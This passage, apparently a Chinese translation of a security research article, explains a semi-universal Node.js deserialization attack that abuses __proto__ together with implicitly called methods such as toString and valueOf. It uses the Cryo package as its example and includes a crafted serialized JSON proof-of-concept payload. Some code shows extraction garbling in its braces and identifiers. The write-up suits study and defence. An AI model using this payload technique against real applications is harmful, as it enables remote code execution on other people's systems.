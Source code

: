 当我研究软件包的时候，我也发现了其他语言使用的反序列化攻击方法。为了实现代码执行，攻击者利用控制数据的函数，这些数据在反序列化过程中自动调用，或者在应用程序与新创建的对象进行交互之后调用。类似于其他语言中的“魔术方法”。

实际上，有很多软件包的工作方式完全不同，在经过一些实验之后，我发现了一个有趣的(semi-universal)半通用攻击。它基于两个条件。

首先，许多软件包在反序列化过程中使用下一种方法。它们创建一个空对象，然后使用方括号表示法设置其属性：

```
obj[key]=value
```

其中的key和value取自JSON 。

因此，作为攻击者，实际上我们可以控制新对象的任何属性。如果查看属性列表，并将注意力集中在cool **proto** property。这个属性用于修改和访问对象的原型，这意味着我们可以改变这个对象的行为和添加/修改它的方法。

其次，调用某个函数会导致调用函数参数的方法。例如，当一个对象转换为一个字符串时，该对象的方法valueOf，toString会自动调用（这里有更多细节)。所以，console.log（obj）导致调用obj.toString（）。另一个例子，JSON.stringify（obj）在内部调用obj.toJSON()。

使用这两个功能，我们可以在应用程序（node.js）和对象之间的交互过程中获得远程代码执行。

我发现了一个很好的例子 – 包Cryo，它支持函数序列化和用于对象重构的方括号表示法，但不易受IIFE影响，因为它可以正确管理对象（不使用eval＆co)。

以下是一个对象的序列化和反序列化的代码：

```
cvar Cryo = require('cryo');
var obj = `{`
testFunc : function() `{`return 1111;`}`
`}`;

var frozen = Cryo.stringify(obj);
console.log(frozen)

var hydrated = Cryo.parse(frozen);
console.log(hydrated);
```

序列化的JSON看起来像以下：

```
`{`"root":"_CRYO_REF_1","references":[`{`"contents":`{``}`,"value":"_CRYO_FUNCTION_function () `{`return 1111;`}`"`}`,`{`"contents":`{`"testFunc":"_CRYO_REF_0"`}`,"value":"_CRYO_OBJECT_"`}`]`}`
```

作为攻击者，我们可以用自定义**proto**创建一个序列化的JSON对象。我们可以用我们自己的方法创建对象原型的对象。一个小技巧，我们可以为**proto**设置一个不正确的名称（因为我们不想在应用程序中重写对象的原型）并将其序列化。

```
var obj = `{`
    __proto: `{`
        toString: function() `{`console.log("defconrussia"); return 1111;`}`,
        valueOf: function() `{`console.log("defconrussia"); return 2222;`}`
    `}`
`}`;
```

所以我们得到序列化的对象，并将其从**proto重命名为**proto__：

```
`{`"root":"CRYO_REF_3","references":[`{`"contents":`{``}`,"value":"_CRYO_FUNCTION_function () `{`console.log("defconrussia"); return 1111;`}`"`}`,`{`"contents":`{``}`,"value":"_CRYO_FUNCTION_function () `{`return 2222;`}`"`}`,`{`"contents":`{`"toString":"_CRYO_REF_0","valueOf":"_CRYO_REF_1"`}`,"value":"_CRYO_OBJECT"`}`,`{`"contents":`{`"proto":"CRYO_REF_2"`}`,"value":"_CRYO_OBJECT"`}`]`}`
```
